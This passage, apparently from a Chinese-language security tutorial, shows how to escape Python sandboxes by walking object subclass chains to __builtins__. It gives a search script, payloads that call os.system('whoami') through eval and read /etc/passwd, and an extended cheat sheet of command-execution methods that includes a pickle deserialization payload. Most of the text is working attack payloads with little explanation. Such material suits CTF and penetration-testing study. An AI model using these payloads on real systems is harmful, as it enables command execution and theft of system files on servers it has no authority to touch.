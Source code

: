 ![1608951891753](1608951891753.png)

`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']`会返回 dict 类型,需要找到可以利用的函数

```python
search = ['os','file','eval','system',]
num = -1
for i in ().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__'].keys():
    num += 1
    try:
        if i in search:
            print(i, num)
    except:
        pass
    
'''
('file', 114)
('eval', 135)
'''
```

```python
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")

().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

# 攻击思路扩展

**命令执行方式的扩展**

```python
# os模块  py2 , py3
os.system('whoami')
os.popen('whoami').read()
# commands 模块 py2 
commands.getoutput('whoami')
commands.getstatusoutput('whoami') 
# subprocess模块 py2 , py3
subprocess.call('whoami', shell=True)
subprocess.check_call('whoami', shell=True)
subprocess.check_output('whoami', shell=True)
subprocess.Popen('whoami', shell=True)
# platform模块 py2
platform.popen('whoami').read()
# timeit模块 py2 py3
timeit.timeit("__import__('os').system('whoami')", number=1)
# importlib 模块
importlib.import_module('os').system('whoami')
importlib.__import__('os').system('whoami')
# pickle模块 py2 py3
pickle.loads(b"cos\nsystem\n(S'whoami'\ntR.")

eval("__import__('os').system('whoami')")
exec("__import__('os').system('whoami')")
exec(compile("__import__('os').system('whoami')", '', 'exec'))

# bdb模块
bdb.os.system("whoami")
# cgi
cgi.os.system("whoami")
```